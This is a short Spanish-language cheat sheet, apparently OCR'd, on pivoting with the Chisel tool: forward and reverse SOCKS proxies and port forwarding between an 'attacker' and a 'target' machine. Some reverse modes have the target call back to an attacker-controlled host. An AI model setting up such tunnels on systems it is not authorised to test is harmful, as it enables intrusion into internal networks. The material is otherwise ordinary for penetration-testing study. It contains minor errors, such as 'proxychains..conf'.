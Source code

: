 ## Forward Dynamic SOCKS Proxy:
### Ejecute servidor Chisel en el equipo destino:
$ chisel server --socks5 --port {PORT-CHISEL}
### Ejecute cliente Chisel en el equipo atacante:
$ chisel client {TARGET-IP}:{PORT-CHISEL} {ATTACK-PORT}:socks
### Modificar archivo /etc/proxychains..conf agregado:
$ socks5 127.0.0.1 {ATTACK-PORT}
## Reverse Dynamic SOCKS Proxy:
### Ejecute servidor Chisel en el equipo atacante:
$ chisel server --reverse --port {PORT-CHISEL}
### Ejecute cliente Chisel en el equipo destino:
$ chisel client {ATTACK-IP}:{PORT-CHISEL} R:1080:socks
### Modificar archivo /etc/proxychains..conf agregado:
$ socks5 127.0.0.1 1080
## Reverse Port Forwarding:
### Ejecute servidor Chisel en equipo atacante:
$ chisel server --reverse --port {PORT-CHISEL}
### Ejecute cliente Chisel en equipo destino:
$ chisel client {ATTACK-IP}:{PORT-CHISEL} R:{ATTACK-PORT}:127.0.0.1:{TARGET-PORT}
## Port Forwarding:
### Ejecute servidor Chisel en equipo destino:
$ chisel server --port {PORT-CHISEL}
### Ejecute cliente Chisel en equipo atacante:
$ chisel client {TARGET-IP}:{PORT-CHISEL} {ATTACK-PORT}:{TARGET-IP}:{TARGET-PORT}